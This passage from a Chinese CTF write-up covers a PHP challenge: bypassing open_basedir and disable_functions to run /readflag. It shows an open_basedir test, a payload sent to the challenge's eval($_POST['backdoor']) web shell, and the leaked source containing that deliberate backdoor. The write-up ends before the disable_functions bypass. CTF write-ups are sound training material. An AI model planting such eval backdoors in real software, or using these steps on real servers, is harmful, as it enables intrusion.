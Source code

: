 过滤非常多，但思路非常清晰：<br>
1.bypass open basedir<br>
2.bypass disable functions<br>
3.execute readflag



## open basedir

我们做个简单的测试

```
php &gt; ini_set('open_basedir','/var/www/html');
php &gt; var_dump(scandir('/var/www/html'));
array(5) `{`
  [0]=&gt;
  string(1) "."
  [1]=&gt;
  string(2) ".."
  [2]=&gt;
  string(7) "hack.so"
  [3]=&gt;
  string(10) "index.html"
  [4]=&gt;
  string(23) "index.nginx-debian.html"
`}`
php &gt; var_dump(scandir('/tmp'));
bool(false)
```

即open basedir是用来限制访问目录的，我们看一下题目源代码

```
backdoor=readfile('index.php');
```

可以得到

```
&lt;?php
$dir = "/tmp/" . md5("$_SERVER[REMOTE_ADDR]");
mkdir($dir);
ini_set('open_basedir', '/var/www/html:' . $dir);
?&gt;
&lt;!DOCTYPE html&gt;&lt;html&gt;&lt;head&gt;&lt;style&gt;.pre `{`word-break: break-all;max-width: 500px;white-space: pre-wrap;`}`&lt;/style&gt;&lt;/head&gt;&lt;body&gt;
&lt;pre class="pre"&gt;&lt;code&gt;Imagick is a awesome library for hackers to break `disable_functions`.
So I installed php-imagick in the server, opened a `backdoor` for you.
Let's try to execute `/readflag` to get the flag.
Open basedir: &lt;?php echo ini_get('open_basedir');?&gt;

&lt;?php eval($_POST["backdoor"]);?&gt;
Hint: eval($_POST["backdoor"]);
&lt;/code&gt;&lt;/pre&gt;&lt;/body&gt;

```
